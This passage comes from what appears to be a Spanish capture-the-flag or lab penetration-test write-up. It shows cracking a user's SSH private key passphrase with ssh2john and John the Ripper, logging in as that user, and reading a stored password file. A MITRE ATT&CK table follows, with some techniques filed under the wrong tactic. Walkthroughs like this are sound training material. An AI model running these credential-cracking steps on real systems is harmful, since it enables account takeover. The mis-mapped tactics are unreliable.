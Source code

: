 
## **6. Análisis de Archivos y Escalación de Privilegios**

Se identificaron los siguientes elementos dentro del sistema tras la autenticación vía SSH:

### **Archivos de Interés**

#### **Contenido de `/home/Kay/.ssh`**

| **Archivo** | **Descripción** |
|------------|----------------|
| `id_rsa` | Posible clave privada de Kay. |
| `id_rsa.pub` | Clave pública asociada a la privada. |
| `authorized_keys` | Define qué claves públicas pueden autenticarse en el sistema. |

**Errores de permisos en la clave privada**

Una vez copiado la clave privada debía restringirse con:
```bash
chmod 600 id_rsa.pem
```

**Descifrado de Clave Privada**

Se utilizó John the Ripper para descifrar la clave privada con el diccionario rockyou.txt:
```bash
python3 /usr/share/john/ssh2john.py id_rsa > rsa_hash.txt
john --wordlist=rockyou.txt rsa_hash.txt
```
**Resultado:**
```bash
beeswax          (Kay.pem)
```

### **Acceso con la Clave Privada Descifrada**

Se utilizó la clave privada descifrada para autenticarse como el usuario **kay**:
```bash
ssh -i Kay.pem kay@10.10.225.117
```
**Resultado:** Se ingresó la passphrase **beeswax**, logrando acceso al usuario **kay**.

**Obtención de Credenciales Finales**

Dentro del directorio de kay, se encontró un archivo llamado **pass.bak**:
```bash
cat pass.bak
```
**Contenido:**
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
## **7. Análisis MITRE ATT&CK**
| **Táctica** | **Técnica** | **Descripción** |
|------------|------------|----------------|
| **Reconocimiento** | **T1046 - Escaneo de Red** | Se identificaron servicios con Nmap. |
| **Acceso Inicial** | **T1110 - Brute Force** | Fuerza bruta en SSH con Hydra. |
| **Persistencia** | **T1552 - Unsecured Credentials** | Credenciales débiles encontradas en `j.txt`. |
| **Escalada de Privilegios** | **T1078 - Valid Accounts** | Uso de credenciales obtenidas para acceder como "kay". |
| **Ejecución** | **T1190 - Exploit Public-Facing Application** | Posible explotación de Apache Struts 2.5.12. |


